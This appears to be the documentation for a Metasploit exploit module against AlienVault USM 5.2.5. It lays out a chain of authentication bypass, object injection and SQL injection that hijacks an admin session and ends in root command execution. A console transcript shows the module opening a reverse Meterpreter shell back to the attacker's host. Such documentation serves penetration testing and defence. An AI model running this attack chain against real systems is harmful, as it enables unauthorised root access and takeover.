 ## Vulnerable Application

This module exploits object injection, authentication bypass and ip spoofing vulnerabities all together. Unauthenticated users can execute arbitrary commands under the context of the root user.

By abusing authentication bypass issue on gauge.php lead adversaries to exploit object injection vulnerability
which leads to SQL injection attack that leaks an administrator session token. Attackers can create a rogue
action and policy that enables to execute operating system commands by using captured session token. As a final step,
SSH login attempt with a invalid credentials can trigger a created rogue policy which triggers an action that executes
operating system command with root user privileges.

This module was tested against AlienVault USM 5.2.5.

**Vulnerable Application Installation Steps**

Major version of older releases can be found at following URL.
[http://downloads.eu.alienvault.com/c/download](http://downloads.eu.alienvault.com/c/download)

You can download file named as AlienVault-USM_trial_5.2.5.zip which contains a OVA file.
In order to complete installation phase, you have to apply [https://www.alienvault.com/try-it-free](https://www.alienvault.com/try-it-free) .
Once alienvault sales team validate your information, you will be able to complete the installation with your e-mail address.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/alienvault_exec 
msf exploit(alienvault_exec) > set RHOST 12.0.0.137
RHOST => 12.0.0.137
msf exploit(alienvault_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(alienvault_exec) > check
[+] 12.0.0.137:443 The target is vulnerable.
msf exploit(alienvault_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4445 
[*] Hijacking administrator session
[+] Admin session token : PHPSESSID=2gbhp8j5f2af0vu5es5t3083q4
[*] Creating rogue action
[+] Action created: aWbhnZFHqYbUbNW
[*] Retrieving rogue action id
[+] Corresponding Action ID found: D62A1D4A6D3AEEA65F99B606B02197A1
[*] Retrieving policy ctx and group values
[+] CTX Value found: 5E22D6A9E79211E6B8E4000C29F647D7
[+] GROUP Value found: 00000000000000000000000000000000
[*] Creating a policy that uses our rogue action
[+] Policy created: ASdKHQOZVONGzfU
[*] Activating the policy
[+] Rogue policy activated
[*] Triggering the policy by performing SSH login attempt
[+] SSH - Failed authentication. That means our policy and action will be triggered..!
[*] Sending stage (38500 bytes) to 12.0.0.137
[*] Meterpreter session 6 opened (12.0.0.1:4445 -> 12.0.0.137:51674) at 2017-01-31 14:13:49 +0300

meterpreter > getuid
Server username: root
meterpreter >
```
